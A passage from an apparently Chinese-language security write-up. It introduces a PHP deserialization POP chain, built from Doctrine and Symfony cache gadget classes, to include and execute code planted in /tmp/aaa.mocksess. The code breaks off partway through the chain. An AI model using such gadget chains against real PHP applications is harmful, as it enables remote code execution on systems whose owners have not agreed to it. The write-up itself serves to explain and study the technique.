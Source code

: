 [![](assets/1698893201-f33ae99f65cf662867b8a2ab6d1e304b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028001744-5c8e1e62-74e4-1.png)

实现文件包含的最后一步是为 `file` 属性定义一个值，下面的 POP 链旨在执行之前生成的 `/tmp/aaa.mocksess` 文件中自定义的代码。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
```